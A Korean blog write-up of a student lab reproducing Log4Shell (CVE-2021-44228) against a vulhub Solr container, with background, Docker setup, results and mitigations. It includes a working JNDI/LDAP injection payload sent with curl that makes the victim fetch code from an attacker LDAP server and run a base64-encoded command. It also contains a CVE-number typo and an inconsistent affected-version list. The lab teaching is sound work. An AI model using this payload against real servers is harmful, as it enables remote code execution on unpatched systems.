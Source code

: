 ```yaml
---
title: "[WHS]2주차 log4j CVE-2021-44228 분석(Vulnhub 한글화하기)"
categories: [WhiteHatSchool, task]
mermaid: true
pin: true
tag:
- whitehatschool
- 화이트햇스쿨
- vulnhub
- preBoB
- CVE
- CVE-2021-44228
- log4j
- log4shell
- 집단지성
---
```


# 개요
이번 Write up 에서는 [https://github.com/vulhub/vulhub](https://github.com/vulhub/vulhub) Repository vulhub을 기반으로한 한국어 번역 및 컨텐츠 추가에대한 과제로 내가 선택한 취약점인 log4shell이라고 불리는 log4j의 취약점인 `CVE-2021-33228`에 대해 작업을 진행했습니다.

**Contributors**
- [김지민 (@Antimony02)](https://github.com/Jimin0605)

**github repository**
- #TODO

<br>

| 정보             | 설명                                             |
| ----------------| ------------------------------------------------ |
| **이름**         | Log4shell(CVE-2021-44228)                |
| **심각도**       | 심각                                            |
| **CVSS**        | 10.0                                              |
| **CVSS String** | 10.0 CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H   |



### Log4shell이란
#### JNDI
우선 JNDI(Java Naming and Directory Interface)는 클라이언트나 서버에서 제공하는 데이터 및 객체를 lookup하기 위한 자바 API다. 쉽게말해 연결하고 싶은 데이터베이스의 DB Pool을 미리 Naming 시켜주는 방법중에 하나이다. WAS의 데이터베이스 정보에 JNDI를 설정해 놓으면 웹 애플리케이션은 JNDI만 호출하면 간단하게 데이터를 전달할 수 있다.

따라서 LDAP서버에서 JNDI를 이용해 디렉토리 서비스에 연결하고 객체를 가져와 보내기위해 사용할 것이다.

#### Log4j
Log4j는 로그에 대한 라이브러리이다. 그냥 기본적인 log기능으로 대체하면 되지 않나 싶지만. Log4j는 로그를 포맷팅, 필터링이 가능하고, 어플리케이션의 파일로 이를 기억하는것 이외에도 정말 유용한 기능들이 있기에 개발자 에게는 매우 좋은 라이브러리이다. 

#### Log4shell
Log4shell의 취약점은 log4j의 lookup기능중 JNDI looup기능을 지원으로 발생한 취약점이다.log4j가 로깅을 하는 부분에서 `$(jndi:ldap:[LDAP_IP])`와같은 메세지를 남기면 해당 서버에 접속해 객체를 참조하게되는데, 즉 해당 서버에 명령어를 입력하는 객체를 참조하게 될 경우 RCE취약점이 발생되므로 굉장히 위험한 공격이다. 추가로 더해서 로깅을 하는 부분은 로그인, 사용자이름, 와이파이이름 등 사용하기 나름대로 정말 다양해 사용자이름을 바꾸던가, 와이파이이름을 바꾸는 것만으로도 취약점 공격이 가능하다는 점에서 굉장히 파급력이 크다.

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/1.png)

<br>

log4j는 2015년 Oracle에 따르면 Java는 130억개의 기기에서 구동중이다. 이렇게 많이 사용하는 만큼 애플, 텐센트, 아마존, 테슬라, 클라우드플레어, 스팀, 마인크래프트, 구글, github 등 정말 많은 대기업들이 이 Log4shell취약점에 노출되어있었다. 

결론적으로 log4shell은 당시 해당 취약점이 있는 log4j를 사용중인 회사는 굉장히 많고, 공격하기도 굉장히 쉽고, 효과도 엄청난 Zero-day 취약점이라는것이다.

<br>

### 실습
#### 실습환경 구축
실습환경으로는 docker로 구축을 할것이다.

|Attacker       |Victim     |
|:-------------:|:---------:|
|Ubuntu:latest  |solr:8.11.0|

docker hub에서 2개의 image들을 pull한다.
```bash
$ docker pull vulhub/solr:8.11.0
$ docker pull antimony02/log4shell_jndi
```

여기서 vulhub/solr:8.11.0은 log4shell 취약점이 있는 Victim서버이고, antimony02/log4shell_jndi는 악성 Class 파일을 다운로드 할 수 있도록 설계된 LDAP서버이다. 이것을 이용해 log4shell 공격으로 solr서버를 공격할 것이다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/2.png)

docker pull이 완료된 이후에 `docekr compose up -d`로 컨테이너를 실행시켜준다. 컨테이너를 끌때는 `docker compose down`을 하면 된다. 실행을 완료한 후에 Attacker 컨테이너의 log를 확인해 LDAP서버도 제대로 열렸는지와 해당 서버의 IP를 확인한다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/3.png)
```bash
$ docker ps # 컨테이너 ID확인
$ docker logs ID
```

여기까지 오류없이 잘 작동이 됐으면 환경 구축은 완료했다.

<br>

#### Log4shell 공격
log4shell취약점은 로깅을 하는데에서 발생하므로 어떤부분에서 로깅이 발생하는지 살펴봐야한다. 간단히 말해서 `${jndi:dns://${sys:java.version}.example.com}` 이 JNDI쿼리를 트리거할 수 있는 부분에 이 페이로드를 넣어야한다.

vulnhub에서는 `/solr/admin/cores?action=${jndi:dns://${sys:java.version}.example.com}`

이경로를 통해 페이로드를 삽입하겠다.

```bash
curl 'http://127.0.0.1:8983/solr/admin/cores?action=$\{jndi:ldap://{LDAP_IP}:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=\}'
```
이 LDAP경로는 `dG91Y2ggL3RtcC9oYWNrZWQ=`뒤쪽 base64로 인코딩된 문자열을 base64로 디코딩한 뒤 RCE를 날린다.

예시로 `touch /tmp/hacked`를 base64로 인코딩해 넣어줘 파일이 제대로 생성이 되는지 확인하겠다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/4.png)

요청은 제대로 간것을 확인했다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/5.png)

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/6.png)

```
2023-10-31 22:20:45 2023-10-31 13:20:44.903 INFO  (qtp860481979-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={asdf=${jndi:ldap://192.168.80.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ%3D}} status=0 QTime=0
```
두 서버모두 요청이 제대로 잘 전달이 된것을 확인했고, 정말 `/tmp/hacked` 가 만들어졌는지 확인해보겠다. 확인하는 방법으로는 터미널에서 `docker exec -it victim_comtainer_ID /bin/bash`를 통해 직접 접속해 확인할 수 있다. 나는 docker desktop에서 확인해봤다.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/log4shell/7.png)

잘 생성이 되었으므로 Log4shell 취약점 공격에 성공했다.


### 대응방안
해당 취약점을 막기위해서는 log4shell 취약점이 있는 버전의 log4j를 사용을 하지 않는것이다.

**Log4shell 영향을 받는 버전**
- Log4 2.0-beta9 ~ 2.14.1 이하 버전
- Log4j 2.0-beta9 ~ 2.15.0 이하 버전
- Log4j 1.x 버전

만약 어쩔 수 없는 이유로 해당 버전들을 사용할 경우에는 log4j의 JNDI LookUp을 비활성화 하고, 공격자가 알 수 없는 형태의 파라미터로 로그를 남기고, log4j를 사용하는 시스템에서 LDAP등 JNDI앤드 포인트와 통신이 불가능 할경우에 해당 취약점을 막을 수 있다.


## Reference
[CVE-2021-44228]log4j 실습 - [https://lead-earthquake-61f.notion.site/CVE-2021-44228-Log4J-a8ce8189a0da48c68e2645dcd949ceb1](https://lead-earthquake-61f.notion.site/CVE-2021-44228-Log4J-a8ce8189a0da48c68e2645dcd949ceb1)

Youtube_노마드코더 - [https://www.youtube.com/watch?v=kwS3twdVsko&t=281s](https://www.youtube.com/watch?v=kwS3twdVsko&t=281s)

vulbuh - [https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228](https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228)

 [https://github.com/black9/Log4shell_JNDIExploit](https://github.com/black9/Log4shell_JNDIExploit)
